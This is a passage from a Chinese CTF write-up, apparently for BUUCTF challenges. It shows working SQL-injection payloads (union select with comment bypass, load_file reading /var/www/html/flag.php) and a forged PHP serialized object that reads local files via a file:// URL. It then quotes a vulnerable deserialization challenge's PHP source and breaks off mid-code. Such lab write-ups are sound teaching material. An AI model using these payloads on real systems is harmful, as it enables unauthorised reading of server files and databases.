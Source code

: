 3. 注册完成后登录发现用户处可以点击，进去看到url,no这个地方可能存在注入点，然后就是爆库，爆表等等。

   ```url
    http://71601955-9748-4b1d-aaae-0fa3e0652d97.node5.buuoj.cn:81/view.php?no=1
   ```

4. 正式注入，找flag(两种方法)
    1. 查询数据库信息`?no=-1 union/**/select 1,user(),3,4--+`,发现是root权限。
            load_file()函数可以利用绝对路径去加载一个文件。load_file(file_name):file_name是一个完整的路径，于是我们直接用var/www/html/flag.php路径去访问一下这个文件。

        payload: `?no=-1 union/**/select 1,load_file("/var/www/html/flag.php"),3,4--+`

    2. 爆列发现存在一个名为data的列，爆data中的内容，发现是序列化后的字符串

        `O:8:"UserInfo":3:{s:4:"name";s:5:"admin";s:3:"age";i:21;s:4:"blog";s:7:"abc.com";}`

        改动其中的内容

        `O:8:"UserInfo":3:{s:4:"name";s:5:"admin";s:3:"age";i:19;s:4:"blog";s:29:"file:///var/www/html/flag.php";}`

        payload: `?no=-1 union/**/select 1,2,3,'O:8:"UserInfo":3:{s:4:"name";s:5:"admin";s:3:"age";i:19;s:4:"blog";s:29:"file:///var/www/html/flag.php";}'`

#### 网鼎杯2020 青龙组 反序列化

```php
    <?php

    include("flag.php");

    highlight_file(__FILE__);

    class FileHandler {

        protected $op;
        protected $filename;
        protected $content;

        function __construct() {
            $op = "1";
            $filename = "/tmp/tmpfile";
            $content = "Hello World!";
            $this->process();
        }

        public function process() {
            if($this->op == "1") {
                $this->write();
            } else if($this->op == "2") {
                $res = $this->read();
                $this->output($res);
            } else {
                $this->output("Bad Hacker!");
            }
        }

        private function write() {
            if(isset($this->filename) && isset($this->content)) {
                if(strlen((string)$this->content) > 100) {
                    $this->output("Too long!");
                    die();
                }
                $res = file_put_contents($this->filename, $this->content);
                if($res) $this->output("Successful!");
                else $this->output("Failed!");
            } else {
```
